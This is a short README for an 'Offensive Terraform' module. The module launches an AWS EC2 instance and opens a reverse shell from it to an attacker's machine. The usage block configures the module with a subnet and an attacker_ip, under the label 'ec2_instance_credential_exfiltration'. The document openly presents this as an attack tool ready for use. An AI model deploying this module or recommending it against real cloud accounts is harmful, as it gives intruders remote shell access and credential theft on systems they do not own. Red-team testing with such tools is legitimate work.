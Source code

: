 # AWS EC2 Instance Reverse Shell Module

![OffensiveTerraform](https://img.shields.io/badge/hack-success)
![OffensiveTerraform](https://img.shields.io/badge/offensive-terraform-blueviolet)
![OffensiveTerraform](https://img.shields.io/badge/aws-important)

Offensive Terraform module which creates EC2 instance and reverse shell from an EC2 instance to attacker machine.

![Attack Diagram](https://raw.githubusercontent.com/offensive-terraform/terraform-aws-ec2-instance-reverse-shell/master/diagram.jpg)

## Usage
```
module "ec2_instance_credential_exfiltration" {
    source  = "offensive-terraform/ec2-instance-reverse-shell/aws"

    subnet_id = "subnet-0a4a1cc04"
    attacker_ip = "0.0.0.0"
}
```
## Author
Module managed by https://github.com/iganbold